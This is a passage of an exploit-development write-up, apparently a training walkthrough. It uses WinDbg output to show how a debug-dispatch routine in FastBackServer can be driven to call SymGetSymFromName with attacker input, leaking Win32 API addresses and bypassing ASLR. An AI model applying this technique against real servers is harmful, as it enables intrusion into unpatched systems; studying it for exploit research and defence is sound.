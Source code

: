 ```shell
0:001> bp 0057e984
0:001> g
B r e a k po int 1 h i t
eax=ffffffff ebx=0602bd30 ecx=0d50da8c edx=0d50dca0 esi=0602bd30 edi=00669360
eip=0057e984 esp=0d50da30 ebp=0d50e320 iopl=0 nv up ei ng nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000286
FastBackServer!FXCLI_DebugDispatch+0xe04:
0057e984 ff15e4e76700 call dword ptr [FastBackServer!_imp SymGetSymFromName
(0067e7e4)] ds:0023:0067e7e4={dbghelp!SymGetSymFromName (6dbfea10)}
```

we can reach the call to `SymGetSymFromName`! now we need to resolve an address.

you can learn more about the prototype [here](https://learn.microsoft.com/en-us/windows/win32/api/dbghelp/nf-dbghelp-symgetsymfromname), but i'll share it below anyway.

```c
BOOL IMAGEAPI SymGetSymFromName(
HANDLE hProcess,
PCSTR Name,
PIMAGEHLP_SYMBOL Symbol
);
```

analyzing the arguments in WinDbg:

```shell
eax=ffffffff ebx=0602bd30 ecx=0d50da8c edx=0d50dca0 esi=0602bd30 edi=00669360
eip=0057e984 esp=0d50da30 ebp=0d50e320

0:079> dd esp L3         ; Examine all three arguments
0d50da30 <current_process_handle> 0d50da8c 0d50dca0

0:079> da poi(esp+4)     ; Second arg (symbol name)
0d50da8c "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```

the second argument (`Name`) is our input string that was appended to the string `SymbolOperation`. so, i can provide the name of any Win32 API and have the address resolved by `SymGetSymFromName`!

the last argument, [`PIMAGEHLP_SYMBOL`](https://learn.microsoft.com/en-gb/windows/win32/api/dbghelp/ns-dbghelp-imagehlp_symbol), is a struct that looks like this:

```c
typedef struct _IMAGEHLP_SYMBOL {
    DWORD SizeOfStruct;    // Must be set correctly
    DWORD Address;         // Where the resolved address goes
    DWORD Size;
    DWORD Flags;
    DWORD MaxNameLength;
    CHAR Name[1];         // Symbol name
} IMAGEHLP_SYMBOL, *PIMAGEHLP_SYMBOL;
```

this struct is populated by `SymGetSymFromName` and initialized within the same block, at address `0x57E957`. the second field contains the resolved API's memory address, which can then be used to **bypass ASLR**.

